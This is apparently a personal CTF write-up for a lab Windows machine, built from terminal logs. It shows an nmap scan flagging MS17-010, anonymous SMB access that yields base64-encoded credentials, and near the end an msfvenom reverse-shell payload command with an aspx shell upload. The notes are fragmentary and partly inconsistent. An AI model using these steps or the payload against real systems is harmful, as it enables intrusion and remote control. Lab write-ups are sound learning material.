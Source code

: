 ┌──(kali㉿kali)-[~]
└─$ nmap -A -T4 --script vuln -p- -oN initial.nmap 10.10.213.9
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 12:07 EDT
Nmap scan report for 10.10.213.9
Host is up (0.098s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/10.0
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   98.22 ms 10.23.0.1
2   98.39 ms 10.10.213.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 451.48 seconds

So I immediately went for SMB, enum4linux came back with basically nothing

I did notice ports 49666 and 49668 didn't come up with any pages

┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.213.9 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.213.9 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                 
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\10.10.213.9\\nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5130352 blocks available
smb: \> cat passwords.txt
cat: command not found
smb: \> type passwords.txt
type: command not found
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> 

┌──(kali㉿kali)-[~]
└─$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk                                                                                

`Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$

which is great but this machine is not running SSH and I haven't found a login page from gobuster yet I can in the mean time try these credentials against the other SMB shares I found

yeah unfortunately I couldn't get into the other SMB shares

oh I should check rdp

┌──(kali㉿kali)-[~]
└─$ rdesktop 10.10.213.9:3389
Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=Relevant


Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=Relevant
     Issuer: CN=Relevant
 Valid From: Sun May  4 12:05:13 2025
         To: Mon Nov  3 11:05:13 2025

  Certificate fingerprints:

       sha1: 6b390024c9da71f74a456e6788b8f6c706001536
     sha256: 0b712ed6f87278c4a5a74925a9b05917fbfaf0a152d6befd0cbf6172ca9e1163


Do you trust this certificate (yes/no)? yes
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Failed to connect, CredSSP required by server (check if server has disabled old TLS versions, if yes use -V option).

can't get in with user bob or bill because I dont have the certificate

also my gobuster scan finished and found nothing

okay eventually I realized nt4wrksv was accessabile via http://10.10.155.179:49663/nt4wrksv/passwords.txt for example

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.23.80.154 LPORT=4444 -f exe -o revshell.exe by logging in via SMB with the typical smbclient //10.10.155.179/nt4wrksv -N

then when going to the URL http://10.10.155.179:49663/nt4wrksv/rev-shell.aspx

this machine kept crashing so I moved onto the next one